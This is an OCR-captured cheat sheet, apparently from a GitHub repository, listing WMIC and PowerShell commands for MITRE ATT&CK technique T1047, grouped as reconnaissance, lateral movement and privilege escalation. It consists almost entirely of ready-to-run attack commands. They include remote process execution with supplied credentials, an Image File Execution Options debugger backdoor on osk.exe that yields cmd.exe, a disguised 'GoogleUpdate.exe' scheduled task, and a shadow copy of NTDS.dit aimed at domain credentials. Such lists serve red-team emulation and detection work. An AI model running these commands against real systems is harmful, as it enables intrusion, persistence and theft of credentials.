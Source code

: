 # Windows Management Instrumentation

## MITRE ATT&CK Technique:
[T1047](https://attack.mitre.org/wiki/Technique/T1047)

## Reconnaissance

### Input:

    wmic useraccount get /ALL

### Input:

    wmic process get caption,executablepath,commandline

### Input:

    wmic qfe get description,installedOn /format:csv

### Input:

    wmic /node:"192.168.0.1" service where (caption like "%sql server (%")

### Input:

    get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"

## Lateral Movement

### Input:

    wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

### Input:

    wmic /NODE: "192.168.0.1" process call create "evil.exe"

### Privileged Escalation

#### Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"

#### Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"
